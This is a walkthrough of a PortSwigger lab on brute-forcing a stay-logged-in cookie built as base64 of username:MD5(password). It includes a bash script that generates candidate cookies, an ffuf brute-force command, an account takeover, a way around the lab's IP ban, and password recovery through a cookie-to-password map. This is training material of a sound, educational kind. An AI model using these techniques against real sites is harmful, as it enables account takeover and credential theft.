 ```yaml
---
title: "Portswigger Lab: Brute-forcing a stay-logged-in cookie"
date: 2024-09-23T10:59:43-05:00
draft: false
tags: 
- PortSwigger
- Cookies
- Web Security
- Broken Authentication
---
```


## Description
The "Brute-forcing a stay-logged-in cookie" lab by PortSwigger features a web application whose stay-logged-in cookies are vulnerable to attack. 


## Walkthrough
Navigate to the login page under "My account". We will first create a stay-logged-in cookie with the user credentials given to us. Make sure check "Stay logged in".

![Login and enable persistent cookies](/img/portswigger/cookie-brute/stay_logged_in.png)

Now we can copy the cookie to analyze. Hit ```Ctr-Shift-i``` to open the Developer Tools panel and head to the "Storage" section. The value for the "stay-logged-on" field is our cookie.

![Stay-logged-in cookie](/img/portswigger/cookie-brute/stay_logged_in_cookie.png)

The cookie is encoded in base64. Decoding it reveals that it is composed of the our username, ":", and a hash. 

```
┌──(kali㉿kali)-[/tmp]
└─$ echo 'd2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw' | base64 -d                                    
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Given that our username was used as part of the cookie, we can reasonably infer that the hash is based on a predictable value like a timestamp, password, or maybe even the username again. In this case, it's the MD5 hash of our password. We can confirm this by hashing our password using MD5 and verifying it is identical to the hash in our cookie.

```
┌──(kali㉿kali)-[/tmp]
└─$ echo -n 'peter' | md5sum | cut -d ' ' -f1 
51dc30ddc473d43a6011e9ebba6ca770
```

We have now determined that the stay-logged-in cookie is ```username:<password MD5 hash>``` and base64-encoded. Since we have already been given a [list of passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords), we can create a list of potential cookies for ```carlos``` by applying these rules. I provided a script that does this and saves the cookies into ```cookies.txt```.

```shell
#!/bin/bash

# md5 hash -> user:<hash> -> base64 cookie

while read -r line
do
        hash=$(printf "$line" | md5sum | cut -d ' '  -f1)
        cookie=$(printf "carlos:$hash" | base64)
        echo "$cookie" >> cookies.txt
done <<< $(cat pass.txt)
```

Now we can brute force the stay-logged-in cookie for ```carlos```. Logout and start Burp Suite. We are going to login again as ```wiener``` again, but this time we are going to intercept our web requests. Forward the POST request but capture the GET request for your account details.

![Web request](/img/portswigger/cookie-brute/persistent_logon.png)

Copy it and save it into a file. Change the ```id``` query string's value to ```carlos``` and replace the stay-logged-in cookie with ```FUZZ```. Now, we can brute force the cookie.

```
ffuf -request request.txt -request-proto https -mode clusterbomb -w cookies.txt:FUZZ -r
```

We see a change in the webserver's response after supplying one of the cookies.

![Cookie brute force](/img/portswigger/cookie-brute/success.png)

Now we can simply use our cookie to take over  ```carlos```. Once again, we open the developer tools and head to storage > cookies. Right click and add another item with the name as "stay-logged-in" and the value as the cookie we got. 

![Add carlos' cookie](/img/portswigger/cookie-brute/add_cookie.png)

Refresh the page and we are now logged in as ```carlos```.

![Takeover success](/img/portswigger/cookie-brute/carlos_pwned.png)

***
## Beyond Pwn
Note that finding the cookie for ```carlos``` is similar to a password dictionary attack. In this particular though, there is a IP ban for incorrect login attempts. By brute forcing the cookie instead of password, we are able to bypass the IP ban.

Also worth mentioning is that we can also get the ```carlos``` user's password while brute forcing his cookie. 

```shell
#!/bin/bash

# md5 hash -> user:<hash> -> base64 cookie && cookie-password map

while read -r line
do
        hash=$(printf "$line" | md5sum | cut -d ' '  -f1)
        cookie=$(printf "carlos:$hash" | base64)
        echo "$cookie" >> cookies.txt
        echo "$cookie: $line" >> map.txt
done <<< $(cat pass.txt)
```

Once we successfully authenticate with a cookie, we can find its corresponding password through the map.

```
┌──(kali㉿kali)-[/tmp]
└─$ grep 'Y2FybG9zOmVmNmU2NWVmYzE4OGU3ZGZmZDczMzViNjQ2YTg1YTIx' map.txt                    
Y2FybG9zOmVmNmU2NWVmYzE4OGU3ZGZmZDczMzViNjQ2YTg1YTIx: thomas
```

This can be useful when checking for password reuse and may help us access more services in a real engagement.
